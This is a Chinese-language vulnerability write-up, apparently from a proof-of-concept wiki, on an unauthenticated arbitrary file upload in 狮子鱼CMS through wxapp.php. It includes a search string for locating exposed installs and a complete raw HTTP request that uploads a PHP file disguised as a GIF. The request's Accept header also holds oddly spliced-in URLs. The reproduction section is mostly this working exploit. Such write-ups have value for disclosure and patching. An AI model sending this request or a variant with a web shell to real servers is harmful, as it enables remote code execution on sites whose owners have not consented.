 # 狮子鱼CMS wxapp.php 任意文件上传漏洞

## 漏洞描述

狮子鱼CMS wxapp.php文件 存在任意文件上传漏洞，攻击者在没有身份验证的情况下可以上传恶意文件

## 漏洞影响

<a-checkbox checked>狮子鱼CMS</a-checkbox></br>

## 网络测绘

<a-checkbox checked>"/seller.php?s=/Public/login"</a-checkbox></br>

## 漏洞复现

登录页面如下

![img](../../../.vuepress/public/img/szy-1.png)



发送请求包上传PHP文件



```plain
POST /wxapp.php?controller=Goods.doPageUpload HTTP/1.1
Host: 
Content-Length: 210
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: null
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary8UaANmWAgM4BqBSs
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,http://peiqi-wiki-poc.oss-cn-beijing.aliyuncs.com/vuln/avif,http://peiqi-wiki-poc.oss-cn-beijing.aliyuncs.com/vuln/webp,http://peiqi-wiki-poc.oss-cn-beijing.aliyuncs.com/vuln/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close

------WebKitFormBoundary8UaANmWAgM4BqBSs
Content-Disposition: form-data; name="upfile"; filename="test.php"
Content-Type: image/gif

<?php phpinfo();?>
------WebKitFormBoundary8UaANmWAgM4BqBSs--
```



![img](../../../.vuepress/public/img/szy-2.png)



![img](../../../.vuepress/public/img/szy-3.png)
